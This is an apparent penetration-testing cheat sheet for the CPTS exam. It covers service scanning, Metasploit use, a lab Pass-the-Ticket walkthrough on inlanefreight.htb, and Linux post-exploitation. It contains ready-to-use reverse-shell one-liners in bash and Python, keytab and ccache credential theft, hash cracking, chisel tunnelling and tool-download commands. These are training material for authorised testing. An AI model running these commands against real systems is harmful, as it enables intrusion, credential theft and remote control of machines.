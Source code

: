 ```yaml
---
title: General Vulnerability Assessment & Exploitation
parent: CPTS
grand_parent: Categories
nav_order: 3
has_children: false
layout: default
---
```


# General Vulnerability Assessment & Exploitation

## Overview

This section covers service-agnostic vulnerability identification and exploitation techniques that are foundational for all environments, including port-based services, OS-level exploits, and general infrastructure misconfigurations.

---

## General Vulnerability Assessment

### Service Discovery (Baseline)

```bash
nmap -sC -sV -O -p- <target>
```
- `-sC`: Default scripts
- `-sV`: Version detection
- `-O`: OS fingerprinting
- `-p-`: Scan all 65535 ports

### Banner Grabbing (Manual)

```bash
nc <target> 21
nc <target> 80
```

```bash
curl -I http://<target>
```

### Exploit Database Search

```bash
searchsploit <service or version>
```

Use: [https://exploit-db.com](https://exploit-db.com)

### Nessus / OpenVAS (if permitted)
- Run authenticated + unauthenticated scans
- Prioritize based on CVSS score

### Vulnerability Prioritization Table

| Factor       | Description                              |
|--------------|-------------------------------------------|
| CVSS Score   | Severity level                            |
| Exploitability | Ease of use and success probability    |
| Risk         | System damage potential                   |
| Business Impact | Value of data or system targeted       |

---

## General Exploitation Techniques

### Reverse Shell Techniques

#### Bash
```bash
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

#### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Netcat Listener
```bash
nc -lvnp 4444
```

### Metasploit Framework

#### Find Exploit
```bash
search <service/version>
```

#### Use Exploit
```bash
use exploit/multi/some_module
set RHOSTS <target>
set LHOST <your_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
run
```

### Password Attacks

## Pass the Ticket (PtT) from Linux

> Useful links:
> keytab: https://kb.iu.edu/d/aumh
> ccache files: https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html
> KeyTabExtract download: wget https://raw.githubusercontent.com/sosdave/KeyTabExtract/refs/heads/master/keytabextract.py
> Chisel: https://github.com/jpillora/chisel (it's just a tunnel)

- Kerberos ticket stored in env var `KRB5CCNAME` by default

### Scenario

Given:
- User: david@inlanefreight.htb
- Pass: Password2

**Pre-Req(s)**
Domain-Joined Linux Machine
- Check with `realm list`
    - alternatives include sssd or winbind: `ps -ef | grep -i "winbind\|sssd"`

**Find goodies**
Find KeyTab Files: `find / -name *keytab* -ls 2>/dev/null`
Find KeyTab files in Cronjobs: `crontab -l`
- **kinit** is a signifier of Kerberos
Find ccache files: `env | grep -i krb5`
Find ccache files in `/tmp`: `ls -la /tmp`

**Abusing KeyTab files**
Method 1 (impersonate user with a keytab file):
```bash
$ klist -k -t <absolute keytab file> # list keytab file info
$ klist  # impersonate user with a keytab
$ smbclient //<share>/<user> -k -c <command> # connect to SMB share, ex: smbclient //DC01/carlos -k -c ls
```

**Method 2 (extracting secrets from keytab file)**:
```bash
$ python3 /opt/keytabextract.py <absolute keytab file> # extract keytab hashes with KeyTabExtract
```
Then, crack the NTLM hash (crackstation.net, hashcat, john, etc -- doesn't really matter)
```bash
$ su - <user>@<domain> # log in as user
$ klist # impersonate user with keytab
```

Repeat the process for as many users as appropriate.

**Abusing KeyTab ccache**
PrivEsc to root
```bash
$ ssh svc_workstations@inlanefreight.htb@<ip> -p <port>
$ sudo -l
# for the sake of this, imagine it is (ALL) ALL
$ sudo su
# whoami
root # success
```

Hunt for ccache files: `# ls -la /tmp`
Identify group membership: `id`
Import the ccache file into our current session
```bash
# klist
# cp /tmp/<file> .
# export KRB5CCNAME=/root/<file>
# klist
# smbclient //<share>/C$ -k -c ls -no-pass
```

**If we don't have connection to KDC/Domain Controller, and we can't use the DC for name resolution, we can do the following:**
```bash
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz # install chisel
$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse
$ xfreerdp /v:<ip> /u:<user> /d:<domain> /p:<password> /dynamic-resolution
```

Run Chisel from MS01
```
> C:\tools\chisel.exe client <your ip>:8080 R:socks
```

Now we get to transfer the file over!
```bash
$ export KRB5CCNAME=<absolute file location>
$ proxychains impacket-wmiexec dc01 -k
```

**Evil-WinRM**
```bash
$ sudo apt-get install krb5-user -y
# set realm to the domain (eg. INLANEFREIGHT.HTM) and admin. server to Kerb realm (eg. DC01)
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

**Other**
To use ccache file in WIndows or kirbi file in Linux, you can use [impacket-ticketConverter](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
Then, import to Windows: C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
Or play around with Linikatz:
```bash
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```

## Post-Exploitation (General)

### Local Enumeration (Linux)
```bash
uname -a
id
cat /etc/*-release
ls -la /home/
```

### Check for SUID binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```

### Kernel Exploits
Search using:
```bash
uname -r
searchsploit <kernel version>
```

Use compiled exploits or `linux-exploit-suggester.sh`

---

## Notes
- Always follow Rules of Engagement
- Document findings with screenshots or terminal logs
- Prioritize low-risk exploits for exam-style environments
- Clean up if required (reverse shells, temp files)
